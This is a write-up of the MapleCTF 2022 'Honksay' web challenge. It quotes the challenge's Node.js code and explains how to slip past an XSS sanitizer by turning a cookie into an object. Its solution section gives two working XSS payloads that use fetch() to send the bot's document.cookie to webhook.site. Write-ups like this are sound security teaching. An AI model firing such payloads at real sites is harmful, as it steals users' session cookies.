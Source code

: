 ```yaml
---
title: Honksay Writeup [MapleCTF 2022]
layout: post
tags: web warmup
---
```


*Haha goose say funny thing*

[Download challenge](https://ctf2022.maplebacon.org/files/0565426a10b6e02a4fd2dcc6ca720ab0/honksay.tar.gz)


## Investigation

Honksay challenge presents itself with this glorious page

![honk](/assets/honksay.png)
<br>
<br>

Looking onto its code we see that website's backend has a goose script, where a puppeteer instance is created. This instance visits every page you specify in feedback field and sets flag cookie to environment variable. The only obstacle is that cookie is only visible for localhost.

```js
const puppeteer = require('puppeteer');
const FLAG = process.env.FLAG || "maple{fake}";

...

page = await browser.newPage();
await page.setCookie({
      name: 'flag',
      value: FLAG,
      domain: 'localhost',
      samesite: 'none'
});
await page.goto(url, {waitUntil : 'networkidle2' }).catch(e => console.log(e));
```

Digging in the other script reveals that website has `/changehonk` route that can set our message on the frontend.

```js
app.get('/changehonk', (req, res) => {
    res.cookie('honk', req.query.newhonk, {
        httpOnly: true
    });
    res.cookie('honkcount', 0, {
        httpOnly: true
    });
    res.redirect('/');
});
```

Well that is nothing like stored XSS, except there is one problem : upon visiting baseurl, backend performs a little check on our honk cookie with 'xss' plugin

```js
const clean = require('xss');

...

app.get('/', (req, res) => {
    if (req.cookies.honk){
        //construct object
        let finalhonk = {};
        if (typeof(req.cookies.honk) === 'object'){
            finalhonk = req.cookies.honk
        } else {
            finalhonk = {
                message: clean(req.cookies.honk), 
                amountoftimeshonked: req.cookies.honkcount.toString()
            };
        }
        res.send(template(finalhonk.message, finalhonk.amountoftimeshonked));
    } else {
        const initialhonk = 'HONK';
        res.cookie('honk', initialhonk, {
            httpOnly: true
        });
        res.cookie('honkcount', 0, {
            httpOnly: true
        });
        res.redirect('/');
    }
});
```

Turns out we can get around this check, by setting our cookie to an instance of an object, and then finalhonk will get assigned to user controlled honk cookie. 

## Solution

To set cookie type to an object via a GET request we can construct this payload:

``localhost:9988/changehonk?newhonk[message]=<script>fetch(`https://webhook.site/?${document.cookie}`);</script>``

Funny thing, I used another way to make our honk cookie an object, I discovered this by messing with initialhonk variable in my Docker instance:

``http://localhost:9988/changehonk?newhonk=j:{"message":"<script>fetch(`https://webhook.site/?${document.cookie}`);</script>","amountoftimeshonked":1337}``

Thus we get ourselves a neat flag 🚩

**maple{g00segoHONK}**

